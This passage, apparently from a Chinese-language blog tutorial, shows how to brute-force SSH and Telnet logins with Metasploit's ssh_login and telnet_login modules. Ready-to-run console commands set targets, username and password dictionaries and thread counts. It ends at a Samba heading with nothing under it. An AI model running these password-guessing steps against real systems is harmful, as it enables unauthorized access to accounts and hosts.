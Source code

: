 

<p> 在msf命令后界面输入 ：show options  ，查看需要我们设置的参数  ，我们需要补充四点：目标主机IP地址、用户名字典路径、密码字典路径、线程数（即每秒跑几个密码） </p>



<p></p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-11-1024x510.png" alt="" class="wp-image-396"/></figure>



set rhosts 192.168.2.45         #修改目标ip<br>set user_file users.txt           #修改使用用户字典<br>set pass_file password.txt    #修改使用密码字典 <br>set threads 5



<p>然后我们使用show options来查看修改结果</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-12-1024x510.png" alt="" class="wp-image-397"/></figure>



<p>接下来进行最后结果，输入run来执行，等一会就出结果了</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-13-1024x510.png" alt="" class="wp-image-398"/></figure>



<p>这里提供Metasploit各个模块的口令猜解</p>



<p>SSH服务口令猜解：</p>


<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/ssh/ssh_login（使用ssh_login模块）
msf auxiliary(ssh_login) &gt; show options （查看选项）
msf auxiliary(ssh_login) &gt; set RHOSTS 10.107.0.99（目标）
msf auxiliary(ssh_login) &gt; set USER_FILE /root/username.txt（用户名字典，或指定用户）
msf auxiliary(ssh_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(ssh_login) &gt; set THREADS 50（线程）
msf auxiliary(ssh_login) &gt; exploit （开始）
</code></pre>

Telnet口令猜解：

<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/telnet/telnet_login （使用telnet_login模块）
msf auxiliary(telnet_login) &gt; show options （查看选项）
msf auxiliary(telnet_login) &gt; set RHOSTS 10.180.100.141（目标）
msf auxiliary(telnet_login) &gt; set USER_FILE /root/username.txt（用户名字典，或指定用户）
msf auxiliary(telnet_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(telnet_login) &gt; exploit （开始）
</code></pre>

Samba口令猜解：
